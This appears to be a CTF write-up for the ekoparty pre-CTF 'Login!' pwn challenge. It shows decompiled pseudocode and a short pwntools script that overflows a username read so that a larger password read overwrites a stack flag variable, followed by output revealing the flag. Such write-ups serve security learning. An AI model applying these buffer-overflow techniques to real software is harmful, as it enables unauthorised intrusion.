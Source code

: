 ## ekoparty_pre-ctf: pwn50

----------
## Challenge details
| Contest        | Challenge     | Category  | Points |
|:---------------|:--------------|:----------|-------:|
| ekoparty_pre-ctf | Login! | Pwn | 50  |



*Description*
> Are you admin?

> nc challs.ctf.site 20000

> Attachment: pwn50.zip 

----------
## Write-up

In IDA we see the following pseudocode:

```C
int __cdecl main(int argc, const char **argv, const char **envp)
{
  signed __int64 v3; // rcx@2
  int *v4; // rdi@2
  int result; // eax@11
  __int64 v6; // rbx@11
  FILE *stream; // [sp+18h] [bp-D8h]@1
  int bytes_user_read; // [sp+20h] [bp-D0h]@2
  int username; // [sp+24h] [bp-CCh]@5
  int bytes_password_read; // [sp+34h] [bp-BCh]@5
  __int64 password; // [sp+38h] [bp-B8h]@5
  int showflag; // [sp+48h] [bp-A8h]@5
  char s; // [sp+50h] [bp-A0h]@2
  __int64 v14; // [sp+D8h] [bp-18h]@1

  v14 = *MK_FP(__FS__, 40LL);
  stream = fopen("flag.txt", "r");
  if ( stream )
  {
    fgets(&s, 32, stream);
    fclose(stream);
    v3 = 5LL;
    v4 = &bytes_user_read;
    while ( v3 )
    {
      *v4 = 0LL;
      v4 += 2;
      --v3;
    }
    *v4 = 0;
    bytes_user_read = 17;
    bytes_password_read = 16;
    showflag = 0;
    printf("User : ", 32LL, v4 + 1, argv);
    fflush(0LL);
    read(0, &username, bytes_user_read);
    printf("Password : ", &username);
    fflush(0LL);
    read(0, &password, bytes_password_read);
    if ( !strncmp(&username, "charly", 6uLL) && !strncmp(&password, "h4ckTH1s", 8uLL) )
    {
      puts("Welcome guest!");
      if ( showflag == 1 )
        printf("Your flag is : %s\n", &s);
    }
  }
  else
  {
    puts("Error leyendo datos");
  }
  result = 0;
  v6 = *MK_FP(__FS__, 40LL) ^ v14;
  return result;
}
```

From which we deduce the following application logic:

* read in 17 bytes of username in a 16 byte buffer, which can overflow the number of bytes that are read for the password.
* read in the password
* compare the first 6 bytes of username to "charly" and the first 8 bytes of password to "h4ckTH1s"
* show the flag if flag == 1

We can exploit this by overflowing the password read with a value high enough to change the flag variable to 1:

```python
#!/usr/bin/python

from pwn import *

host = "challs.ctf.site"
port = 20000

s = remote(host, port)

print s.recvuntil("User :")
s.send("charlyaaaaaaaaaaa")
print s.recvuntil("Password :")
s.send("h4ckTH1s" + "\x00"*8+"\x01")
print s.recvline()
print s.recvline()
```

Which gives:

```
./login.py 
[+] Opening connection to challs.ctf.site on port 20000: Done
User :
 Password :
 Welcome guest!

Your flag is : EKO{Back_to_r00000ooooo00000tS}

[*] Closed connection to challs.ctf.site port 20000
```

The flag is:

```
EKO{Back_to_r00000ooooo00000tS}
```
